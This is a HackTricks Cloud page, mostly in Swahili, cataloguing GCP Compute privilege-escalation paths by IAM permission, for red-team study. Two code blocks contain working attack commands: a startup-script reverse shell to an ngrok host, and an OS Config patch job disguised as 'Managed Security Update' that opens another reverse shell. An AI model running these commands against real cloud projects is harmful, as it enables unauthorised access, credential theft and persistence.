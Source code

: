 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (mtandao) katika GCP angalia:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Kumbuka kwamba ili kufanya mashambulizi yote ya kupandisha hadhi yanayohitaji kubadilisha metadata ya mfano (kama kuongeza watumiaji wapya na funguo za SSH) **ni muhimu kuwa na ruhusa za `actAs` juu ya SA iliyoambatanishwa na mfano**, hata kama SA tayari imeambatanishwa!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kubadilisha** taarifa za **metadata** za **mfano** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** mtumiaji **mpya mwenye** ruhusa za sudo. Hivyo, utaweza kuingia kupitia SSH kwenye mfano wowote wa VM na kuiba Akaunti ya Huduma ya GCP ambayo Mfano unatumia.\
Vikwazo:

* Kumbuka kwamba Akaunti za Huduma za GCP zinazotumika katika mifano ya VM kwa kawaida zina **mipaka finyu sana**
* Itabidi uwe **na uwezo wa kuwasiliana na** seva ya SSH ili kuingia

Kwa maelezo zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Unaweza pia kufanya shambulizi hili kwa kuongeza skripti mpya za kuanzisha na kuanzisha upya mfano:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ruhusa hii inatoa **privilege sawa na ruhusa ya awali** lakini juu ya instances maalum badala ya mradi mzima. **Mizaha na mipaka sawa na ile ya sehemu ya awali inatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya ruhusa itakuruhusu **kujipa jukumu na ruhusa za awali** na kupandisha privileges kwa kuzitumia.

### **`compute.instances.osLogin`**

Ikiwa **OSLogin imewezeshwa katika instance**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na instance. Huta **kuwa na root privs** ndani ya instance.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya VM instance, unahitaji kuwa na ruhusa ya `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imewezeshwa katika instance**, kwa ruhusa hii unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuungana na instance. Utakuwa na **root privs** ndani ya instance.

{% hint style="success" %}
Ili kuingia kwa mafanikio na ruhusa hii ndani ya VM instance, unahitaji kuwa na ruhusa ya `iam.serviceAccounts.actAs` juu ya SA iliyoambatanishwa na VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya virtual na Akaunti ya Huduma iliyotolewa na kuiba tokeni** ya akaunti ya huduma kwa kufikia metadata ili kupandisha privileges kwake.

Script ya exploit kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** ruhusa unaweza kuunda [**kazi ya patch au usambazaji**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuruhusu kuhamasisha kwa upande katika mazingira na kupata utekelezaji wa msimbo kwenye instances zote za compute ndani ya mradi.

Kumbuka kwamba kwa sasa **huhitaji ruhusa ya `actAs`** juu ya SA iliyoambatanishwa na instance.

Ikiwa unataka kutumia hii kwa mikono utahitaji kuunda ama [**kazi ya patch**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **au** [**usambazaji**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**.**\
Ili kukimbia kazi ya patch: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Ili kupeleka usasishaji wa patch:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) inaweza kutumika zamani kwa ajili ya kutumia hii misconfiguration (lakini sasa haifanyi kazi).

**Mshambuliaji anaweza pia kutumia hii kwa kudumu.**

### `compute.machineImages.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya kompyuta.

### `compute.snapshots.setIamPolicy`

**Jipatie ruhusa za ziada** kwa picha ya diski.

### `compute.disks.setIamPolicy`

**Jipatie ruhusa za ziada** kwa diski.

### Bypass Access Scopes

Kwa kufuata kiungo hiki utapata baadhi ya [**wazo za kujaribu kupita mipaka ya ufikiaji**](../).

### Local Privilege Escalation in GCP Compute instance

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
